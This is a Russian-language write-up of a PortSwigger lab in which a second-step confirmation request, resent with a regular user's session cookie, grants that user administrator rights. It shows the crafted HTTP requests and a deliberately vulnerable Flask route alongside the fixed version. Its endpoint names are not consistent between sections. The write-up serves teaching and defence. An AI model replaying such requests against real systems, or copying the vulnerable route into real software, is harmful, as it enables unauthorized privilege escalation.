



# Lab: Multi-step process with no access control on one step

**Платформа:** PortSwigger Web Security Academy  
**Категория:** Access Control  
**Сложность:** Practitioner  
**Дата:** 2025-07-22  

---

## TL;DR
Процесс повышения привилегий состоит из двух шагов.
Первый шаг (форма выбора) проверяет права — но второй шаг
(подтверждение) не проверяет. Изучив процесс с аккаунта
администратора, отправила финальный запрос подтверждения
напрямую от имени обычного пользователя — права повышены.

---

## Описание уязвимости

Разработчики реализовали проверку прав только на первом шаге
многоэтапного процесса. Второй шаг — подтверждение — считается
"защищённым" потому что до него нельзя добраться через интерфейс
без прохождения первого шага. Но HTTP запрос второго шага
можно отправить напрямую минуя первый.

```
Многоэтапный процесс:

Шаг 1: GET /admin → выбор пользователя и роли
        ↑ проверка прав: только администратор

Шаг 2: POST /admin/upgrade-confirm → подтверждение
        ↑ НЕТ проверки прав → уязвимость
```

---

## Разведка

### Шаг 1 — Изучение процесса с аккаунта администратора

Вошла под `administrator:admin`. Открыла панель администратора
и выполнила повышение привилегий для carlos.

Перехватила оба запроса в Burp:

**Шаг 1 — выбор пользователя:**
```http
POST /admin-roles HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=СЕССИЯ_АДМИНА

action=upgrade&username=carlos
```

**Шаг 2 — подтверждение:**
```http
POST /admin-roles HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=СЕССИЯ_АДМИНА

action=upgrade&username=carlos&confirmed=true
```

Запомнила структуру финального запроса подтверждения.

---

## Эксплуатация

### Шаг 2 — Вход под обычным пользователем

Открыла инкогнито окно, вошла под `wiener:peter`.
Скопировала куку сессии wiener из Burp.



### Шаг 3 — Отправка запроса подтверждения от wiener

В Burp Repeater взяла запрос **второго шага** (подтверждения).
Заменила куку администратора на куку wiener.
Изменила `username` на `wiener`:

```http
POST /admin-roles HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=СЕССИЯ_WIENER

action=upgrade&username=wiener&confirmed=true
```

Отправила запрос — сервер принял и повысил wiener до администратора.
Нет проверки прав на шаге подтверждения.



### Шаг 4 — Проверка результата

Обновила страницу аккаунта wiener — получила права администратора.



---

## Итог

```
Аккаунт admin:
Шаг 1 → POST /admin/upgrade
Шаг 2 → POST /admin/upgrade-confirm
Оба запроса изучены → структура понятна

Аккаунт wiener:
Шаг 1 пропущен (проверяет права → отклонит)
Шаг 2 отправлен напрямую с сессией wiener
→ нет проверки прав → wiener стал администратором
```

### Почему разработчики делают такую ошибку

```
Логика разработчика:
"Шаг 2 недоступен без прохождения шага 1
 → шаг 1 защищён → значит шаг 2 тоже защищён"

Реальность:
HTTP запросы можно отправлять напрямую
Пользователь не обязан идти через интерфейс
Каждый шаг должен проверять права независимо
```

### Где встречается в реальности

```
Онлайн-платежи:
Шаг 1: выбор суммы → проверка баланса
Шаг 2: подтверждение → нет проверки баланса
→ можно подтвердить платёж с недостаточным балансом

Административные действия:
Шаг 1: форма удаления → проверка прав
Шаг 2: подтверждение удаления → нет проверки
→ обычный пользователь удаляет данные

Смена роли (эта лаба):
Шаг 1: выбор роли → проверка прав
Шаг 2: подтверждение → нет проверки
→ обычный пользователь становится администратором
```

---

## Защита

```python
# УЯЗВИМО — проверка только на первом шаге:
@app.route('/admin/upgrade', methods=['POST'])
def upgrade_step1():
    if not current_user.is_admin:
        abort(403)  # проверка есть
    # показываем форму подтверждения

@app.route('/admin/upgrade-confirm', methods=['POST'])
def upgrade_step2():
    # нет проверки прав!
    username = request.form['username']
    upgrade_to_admin(username)

# БЕЗОПАСНО — проверка на каждом шаге:
@app.route('/admin/upgrade', methods=['POST'])
def upgrade_step1():
    if not current_user.is_admin:
        abort(403)
    # показываем форму подтверждения

@app.route('/admin/upgrade-confirm', methods=['POST'])
def upgrade_step2():
    if not current_user.is_admin:  # проверка повторяется!
        abort(403)
    username = request.form['username']
    upgrade_to_admin(username)
```

Дополнительно:
- Проверять права доступа на **каждом** шаге независимо
- Не полагаться на то что пользователь "не может добраться"
  до шага N без прохождения шагов 1..N-1 через интерфейс
- Использовать серверный state для отслеживания прогресса
  многошаговых процессов — токен подтверждения привязанный
  к сессии администратора который нельзя использовать
  с другой сессией

